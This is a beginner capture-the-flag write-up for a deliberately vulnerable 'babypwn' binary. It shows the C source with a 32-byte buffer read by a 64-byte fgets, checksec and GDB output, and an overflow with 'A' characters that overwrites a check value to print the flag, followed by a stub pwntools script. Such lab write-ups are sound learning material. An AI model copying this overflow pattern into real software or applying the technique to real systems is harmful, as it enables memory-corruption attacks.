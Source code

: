 # Documentation for the babypwn files

## 'babypwn'

### File Output
```
babypwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, not stripped
```
### 'babypwn' checksec output
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols        No       0               2               babypwn
```
## 'babypwn.c'

### 'babypwn.c' File Output
```
babypwn.c: C source, ASCII text
```

## Possible Vulnerabilities
- The character array is initialized as 32 bites but the input is reading 64 bites.
- The check variable was never initialized but it is being compared.
- There is a fixed memory adress.
# Errors from the debug
### Stack issues 
```
$rsp   : 0x00007fffffffddb8  →  0x0041414141414141 ("AAAAAAA"?)
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007fffffffd7b0  →  "This is the flag! pwntools!\n"
$rdi   : 0x00007fffffffd780  →  0x00007fffffffd7b0  →  "This is the flag! pwntools!\n"
```
#### Segmentaion Fault Display
```
[#0] Id 1, Name: "babypwn", stopped 0x4012c3 in main (), reason: SIGSEGV
```

## What the program is doing
- The 'babypwn' program begins by creating a character array that serves as a **buffer that stores 32 bites** and a check integer variable
``` C 
struct __attribute__((__packed__)) data {
  char buff[32];
  int check;
};
```
- Then the **get_flag()** function open and prints the text file **flag.txt ONLY IF name.check() is set to 0x41414141.** 
``` C
void get_flag(void)
{
  char flag[1024] = { 0 };
  FILE *fp = fopen("flag.txt", "r");
  fgets(flag, 1023, fp);
  printf(flag);
}
``` 
- The program then akss the user for their **name** then reads and stores their input into **'name.buff'**.
``` C
printf("What's your name?\n");
fgets(name.buff, 64, stdin);
```
- A print statement to display the user's name along with a welcome message is executed.
``` C
printf("%s nice to meet you!\n", name.buff);
```
- Lastly, a conditional statement block of code is ran to check **if the user's name is equal to 0X41414141** If the **buffer overflow** occurs, the **'flag.txt' message will appear**.
``` C
if (name.check == 0x41414141) {
  get_flag();
}
```
## Vulnerable function
The **vulnerable function** is the **'fgets()'** because at the start of the program the chracter arrays is to store **32** bites however, the **'fgets()'** function is reading **64 bites**. This will cause  a **BUFFER OVERFLOW**.

## Exploitation Procedure
To exploit this vulnerability, weknew we had to **overwrate 'name.check'**. 0x41414141 dislpays a long series of the letter **'A'** so we simply entered **'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'** when the program asked for a name. This cause the message in the **'flag.txt' to successfully display** because our input was longer than **32 characters** .



# Solution

``` python 
 #!/usr/bin/env python
 
from pwn import *
 
p = process('babypwn')
 
gdb.attach(p, '''continue''')
 
p.interactive()

